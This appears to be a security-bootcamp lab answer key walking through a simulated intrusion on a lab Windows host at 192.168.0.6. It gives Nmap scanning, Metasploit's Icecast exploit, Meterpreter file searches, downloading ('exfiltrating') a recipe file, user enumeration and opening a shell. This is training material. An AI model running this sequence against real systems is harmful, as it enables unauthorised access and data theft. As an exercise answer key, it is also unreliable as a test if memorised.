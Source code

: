 You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


Perform a service and version scan using Nmap to determine which services are up and running:


Run the Nmap command that performs a service and version scan against the target.

Answer: nmap -sV 192.168.0.6 





From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:


Run the SearchSploit commands to show available Icecast exploits.

Answer: searchsploit icecast




Now that we know which exploits are available to us, let's start Metasploit:


Run the command that starts Metasploit:

Answer: msfconsole





Search for the Icecast module and load it for use.


Run the command to search for the Icecast module:

Answer: search icecast

![search_icecast](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/Search_Icecast.JPG)


Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: use 


![use_exploit](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/Use_exploit.JPG)


Set the RHOST to the target machine.


Run the command that sets the RHOST:

Answer: Set RHOST 192.168.0.6





Run the Icecast exploit.


Run the command that runs the Icecast exploit.

Answer: run



You should now have a Meterpreter session open.



Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f *secretfile.txt -r




Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe.txt -r



Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download "c:\Users\IEUser\Documents\Drinks.recipe.txt" "output file name"



You can also use Meterpreter's local exploit suggester to find possible exploits.


Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users 

B. Open a Meterpreter shell.

Answer: shell

C. Run the command that displays the target's computer system information:

Answer: sysinfo

